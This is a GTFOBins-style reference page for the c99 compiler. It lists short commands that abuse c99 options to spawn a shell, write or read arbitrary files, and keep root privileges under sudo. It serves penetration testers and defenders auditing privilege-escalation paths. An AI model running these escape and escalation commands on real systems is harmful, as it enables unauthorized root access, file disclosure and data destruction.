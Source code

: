 # GTFOBin: c99

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
c99 -wrapper /bin/sh,-s .
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_delete
c99 -xc /dev/null -o $LFILE
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
c99 -x c -E "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo c99 -wrapper /bin/sh,-s .
```